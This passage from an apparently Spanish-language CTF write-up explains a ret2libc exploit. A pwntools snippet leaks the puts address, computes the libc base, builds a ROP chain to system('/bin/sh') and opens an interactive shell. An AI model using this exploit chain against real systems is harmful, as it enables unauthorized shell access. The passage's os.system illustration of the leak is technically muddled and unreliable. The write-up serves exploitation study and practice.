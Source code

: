 ```python

log.info("Leaked puts address: %x" % leak_puts)

libc_leaked = leak_puts - 0x68f90
log.info("Leaked libc address: %x" % libc_leaked)
bin_sh = p64(libc_leaked + 0x161c19)

payload = junk + pop_rdi + bin_sh + system_plt

p.recvline()
p.sendline(payload)

p.interactive()
```

La idea aqui seria de hacer una llamad a nivel de systema para arastrar la direccion de **puts**. El objetivo detras de esto es poder leakear la direccion para
poder computar la direccion de  **libc**. Esto no permiteria computar una direccion donde este una string de 
```bash
 /bin/sh 
```
. 

Esto se hace poniendo una direccion memoriaa una llamada de systema (esto nos dara un error)

```python
import os

os.system("whoami")
#Output
root

os.system("0x7fbac32bda8")
#Output
Error Not found.
```

y desde este error, aprovechar de recuperar la direccion de puts. Desde aqui podriamos encontrar todas la direcciones necessarias para ejecutar los comandos que queremos.
Para encontrar las direcciones podemos usar la web de [nullbyte](https://libc.nullbyte.cat/?q=puts%3Af90&l=libc6_2.24-11%2Bdeb9u4_amd64), podemos encontrar todos
los offsets de los comandos que queremos como el offset de la direccion de 
```bash
 system 
```
 y de la string 
```bash
 /bin/sh 
```
 basada por la direccion de puts.

- la direccion de libc seria la direccion de puts menos el offset de puts de la web
- la direccion de system seria la direccion de libc mas el offset de system
- la direccion de la string 
```bash
 /bin/sh 
```
 seria la direccion de libc mas el offset de str_bin_sh
## Vuln exploit & Gaining Access {-}
